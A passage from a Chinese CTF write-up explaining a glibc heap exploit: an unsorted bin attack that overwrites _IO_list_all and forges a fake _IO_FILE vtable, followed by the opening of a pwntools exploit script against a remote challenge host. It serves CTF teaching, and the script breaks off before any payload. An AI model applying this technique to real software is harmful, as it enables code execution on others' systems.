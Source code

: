 ```
0841       if (((fp-&gt;_mode &lt;= 0 &amp;&amp; fp-&gt;_IO_write_ptr &gt; fp-&gt;_IO_write_base)
0842 #if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
0843        || (_IO_vtable_offset (fp) == 0
0844            &amp;&amp; fp-&gt;_mode &gt; 0 &amp;&amp; (fp-&gt;_wide_data-&gt;_IO_write_ptr
0845                     &gt; fp-&gt;_wide_data-&gt;_IO_write_base))
0846 #endif
0847        )
0848       &amp;&amp; _IO_OVERFLOW (fp, EOF) == EOF)
```

在_IO_FILE对象的最后还有一个虚表,我们可以在堆中伪造一个.

当我们申请一块堆内存时,系统首先会在unsorted bin中处理.不管位于unsorted bin中的chunk的大小是否匹配他都会把chunk给移除下来,在这一过程中他并没有检测那个链表的完整性.在unsorted chunk被从unsorted bin移除前,我们还可以实现 一些内存写 : bk = addr – 0x10, addr =  addr_of_unsorted_bin  (bk为unsorted chunk的bk指针,addr为任意地址, addr_of_unsorted_bin为 unsorted bin的地址.).最后我们决定使用这种技巧来用 unsorted bin 的地址来重写_IO_list_all.

                                          [![](https://p3.ssl.qhimg.com/t0156e0fd7c08ff91e2.png)](https://p3.ssl.qhimg.com/t0156e0fd7c08ff91e2.png)

目前我们还是不能控制程序的执行流,原因在于我们还不能控制main_arena中的内容,我们决定使用一个执行下一个 _IO_FILE 对象的指针.他是位于 main_arena中的一个 small bin中.我们可以通过使用 upgrade 函数来重写 unsorted chunk的大小来控制他的内容,与此同时我们再伪造一个_IO_FILE 对象.之后我们使用 build 函数来触发一个unsorted bin attack 攻击重写 _IO_list_all.最后,他会触发一个 unsorted bin chunk的分配接着系统会检测到 malloc函数内部的一些内存错误,而此时我们已经控制了  _IO_list_all ,所以我们现在已经可以干任何事了.大致的伪造流如下

                                

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014c77a267954f08c7.png)

测试截图

[![](https://p3.ssl.qhimg.com/t0176190f014c33aceb.png)](https://p3.ssl.qhimg.com/t0176190f014c33aceb.png)

**exploit: **

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# Author : Angelboy
# http://blog.angelboy.tw
host = "52.68.192.99"
port = 56746
r = remote(host,port)
def build(size,name,price,color):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(name)
    r.recvuntil(":")
    r.sendline(str(price))
    r.recvuntil(":")
    r.sendline(str(color))
def see():
    r.recvuntil(":")
    r.sendline("2")
    data = r.recvuntil("+++++++++++++++++++++++++++++++++++++")
    return data
def upgrade(size,name,price,color):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(size))
```